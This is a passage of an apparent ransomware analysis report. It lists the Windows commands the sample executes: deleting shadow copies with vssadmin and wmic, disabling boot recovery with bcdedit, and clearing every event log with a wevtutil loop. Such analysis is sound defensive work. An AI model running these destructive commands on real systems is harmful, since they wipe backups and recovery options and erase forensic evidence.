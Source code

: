 ![Untitled](img/Untitled%2024.png)

The command executed is:

```
"C:\Windows\system32\cmd.exe" /c "vssadmin.exe Delete Shadows /all /quiet"
```

Then, it uses `wmic` utility to delete the shadow copies again. 

![Untitled](img/Untitled%2025.png)

The command executed is:

```
"C:\Windows\system32\cmd.exe" /c "wmic.exe Shadowcopy Delete"
```

Next, it modifies the Bootloader default to disable recovery mode using `bcdedit` utility. It runs two instances of the command line. The first was not complete so it returns an error message. The second is the following. And it runs successfully: 

![Untitled](img/Untitled%2026.png)

The command executed is:

```
"C:\Windows\system32\cmd.exe" /c "bcdedit /set {default} recoveryenabled No"
```

### Delete Event logs.

Then, it runs the following script:

```powershell
"C:\Windows\system32\cmd.exe" /c "cmd.exe /c  for /F \"tokens=*\" %1 in ('wevtutil.exe el') DO wevtutil.exe cl \"%1\""
```

This script is used to clear the Event logs entries. It gets all the event logs using `wevtutil.exe el` and uses `wevtutil.exe cl` to clear them. 

### Kill Targeted Services & Processes
